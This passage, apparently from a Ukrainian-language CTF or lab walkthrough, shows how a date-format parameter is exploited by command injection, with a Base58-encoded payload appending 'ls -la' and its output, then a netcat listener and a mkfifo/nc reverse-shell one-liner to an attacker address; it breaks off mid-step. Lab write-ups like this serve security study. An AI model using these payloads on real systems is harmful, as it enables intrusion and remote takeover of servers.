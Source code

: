 📌 **Декодований результат**:

```
'+Today is %A, %B %d, %Y %H:%M:%S.'
```

Це формат команди `date` у Linux! Спробуємо виконати **Command Injection**, додавши команду `ls -la`:

**Payload**:

```bash
'+Today is %A, %B %d, %Y %H:%M:%S.';ls -la
```

Кодуємо цей рядок у **Base58**:

```
ev6bGy99wjnctA21ATvLR8Xkptotq1Ssu3SZR3efG68AVURJRzjBHQoTn
```

Відправляємо запит через Burp Suite:

```
http://10.0.2.5:8000/date?format=ev6bGy99wjnctA21ATvLR8Xkptotq1Ssu3SZR3efG68AVURJRzjBHQoTn
```

📌 **Результат**: У відповіді отримуємо вивід команди `ls -la`:

```
Today is Sunday, October 12, 2025 13:58:21.
total 56
drwxr-xr-x  3 www-data www-data  4096 Aug  3  2021 .
drwxr-xr-x  4 root     root      4096 Jul 30  2021 ..
-rw-r--r--  1 www-data www-data  1365 Aug  3  2021 app.js
drwxr-xr-x 56 www-data www-data  4096 Jul 30  2021 node_modules
-rw-r--r--  1 www-data www-data    97 Jul 30  2021 package.json
-rw-r--r--  1 www-data www-data 33602 Jul 30  2021 package-lock.json
```

✅ **Command Injection підтверджено!**

---

### **Крок 5: Отримання Reverse Shell**

На атакуючій машині запускаємо **netcat listener**:

```bash
sudo ncat -l -p 8020
```

Створюємо payload для отримання reverse shell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.4 8020 >/tmp/f
```

⚠️ **Важливо**: Замініть `10.0.2.4` на IP-адресу вашої атакуючої машини.

Кодуємо payload у **Base58**:
